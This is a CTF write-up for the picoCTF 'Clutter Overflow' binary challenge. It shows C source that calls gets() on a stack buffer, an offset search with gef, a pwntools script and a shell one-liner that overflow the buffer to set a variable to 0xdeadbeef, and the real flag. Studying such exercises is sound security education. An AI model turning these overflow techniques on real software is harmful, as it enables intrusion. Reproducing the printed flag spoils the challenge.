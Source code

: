 # Example 3
![image](https://github.com/fahimalshihab/CTF/assets/97816146/c8127a4c-abce-4208-9890-f0180578bb1a)

### PicoGym-2021 - Writeup - Binary Exploitation - Clutter Overflow
# SOL 1

We are given a 64-bit binary called chall:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
We also have the C source code. Basically, what the program does is call function gets and after that compare a local variable (code) with the value of a global variable (GOAL):
```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = "...";

int main() {
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts(HEADER);
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);  
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

The idea is simple: gets is vulnerable to Buffer Overflow, so we can write values on the stack. That way, we can overwrite the value of variable code:
```
gef➤  pattern create 300
gef➤  run
gef➤  pattern offset $rbp
```
Perfect, we need 272 bytes to control $rbp. Thus, we need 264 (272 - 8) to reach the variable we want to modify. After the 264 characters, we must put 0xdeadbeef in little-endian format to pass the check and read the flag:
```

from pwn import *

p = process('./chall')
#p = remote("mars.picoctf.net", 31890)



payload = b"A"*264 
payload += p32(0xdeadbeef)


p.sendline(payload)

p.interactive()
```
flag{hello}

# SOL 2
<pre>
 <b>iftx@iftx-Modern-15-A5M:~/Downloads/pic$ python2 -c 'print(264 * "a" + "\xef\xbe\xad\xde")' > payload</b>
<b>iftx@iftx-Modern-15-A5M:~/Downloads/pic$ ./chall < payload </b>
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
<b>flag{hello}</b>

  <b>iftx@iftx-Modern-15-A5M:~/Downloads/pic$ nc mars.picoctf.net 31890 < payload</b>
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
<b>picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}</b>

</pre>


